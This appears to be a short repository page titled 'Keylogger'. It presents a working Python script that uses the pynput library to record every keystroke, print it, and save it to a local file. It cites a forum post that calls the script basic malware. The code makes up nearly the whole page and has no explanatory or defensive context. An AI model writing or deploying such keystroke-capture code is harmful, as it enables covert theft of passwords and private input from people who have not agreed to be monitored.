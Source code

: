 # Keylogger

```python
import pynput
from pynput.keyboard import Key, Listener

keys = []

def press(key):
    keys.append(key)
    write_file(keys)

    try:
        print('alphanumeric key {0} pressed'.format(key.char))
    except AttributeError:
        print('special key {0} pressed'.format(key))

def write_file(keys):
    with open('test.txt', 'w') as f:
        for key in keys:
            # removing ' '
            k = str(key).replace("'", "")
            f.write(k)

            # every keystroke for readability
            f.write(' ')

def release(key):
    print('{0} released'.format(key))
    if key == Key.esc:
        # stop listener
        return False

with Listener(on_press=press, on_release=release) as listener:
    listener.join()
```

---
## References

### 0x00sec

- [0x00sec: Keylogger - A Basic Malware](https://0x00sec.org/t/keylogger-a-basic-malware/35169)